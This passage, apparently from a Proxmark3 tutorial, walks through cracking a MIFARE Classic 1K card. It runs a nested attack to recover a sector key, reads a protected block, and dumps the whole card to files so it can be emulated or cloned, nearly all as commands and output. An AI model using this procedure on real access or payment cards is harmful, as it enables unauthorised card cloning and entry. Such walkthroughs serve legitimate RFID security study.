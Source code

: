 ```
[+]  010 | 043 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  011 | 047 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  012 | 051 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  013 | 055 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  014 | 059 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  015 | 063 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+] -----+-----+--------------+---+--------------+----
```

Since we have the key for sector 7 (`9E0E3179DB4C`), we can use the nested attack to try and get the key for sector 6:

```
[usb] pm3 --> hf mf nested --tblk 27 --blk 31 -k 9E0E3179DB4C --1k
[+] Found 1 key candidates

[+] Target block   27 key type A -- found valid key [ 842DE085D591 ]
```

Great! Now we can use this key `842DE085D591` to see if we can read the block the reader is interested in (24)

```
[usb] pm3 --> hf mf rdbl --blk 24 -k 842DE085D591

[=]   # | sector 06 / 0x06                                | ascii
[=] ----+-------------------------------------------------+-----------------
[=]  24 | 45 21 58 8B 87 A1 F5 70 07 AF A0 D7 10 63 26 31 | E!X....p.....c&1 
```


Success!

## Dump & Clone

Now that we have the keys to read the entire card, let's dump the contents to a file so we can emulate it or clone it to a new tag.

If you used the autopwn method, there will be a file generated `hf-mf-3A4B8DA2-key.bin` which contains the keys for each sector. With this, Proxmark can dump out all the sectors of the card. Unfortunately, I'm not sure how to use the `dump` command without this keys file (you can make this yourself, it is just a hex dump of all the keys), but you can manually read each block with the above command `hf mf rdbl`.

```
[usb] pm3 --> hf mf dump --1k --keys hf-mf-3A4B8DA2-key.bin
[=] Using `hf-mf-3A4B8DA2-key.bin`
[=] Reading sector access bits...
[=] .................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
[+] successfully read block  0 of sector  0.
[+] successfully read block  1 of sector  0.
...
[+] successfully read block  3 of sector 15.
[+] time: 7 seconds

[+] Succeeded in dumping all blocks

[=] FILE PATH:  hf-mf-3A4B8DA2-dump-8.bin
[+] saved 1024 bytes to binary file hf-mf-3A4B8DA2-dump.bin
[=] FILE PATH:  hf-mf-3A4B8DA2-dump-8.eml
[+] saved 64 blocks to text file hf-mf-3A4B8DA2-dump.eml
[=] FILE PATH:  hf-mf-3A4B8DA2-dump-8.json
[+] saved to json file hf-mf-3A4B8DA2-dump.json
```
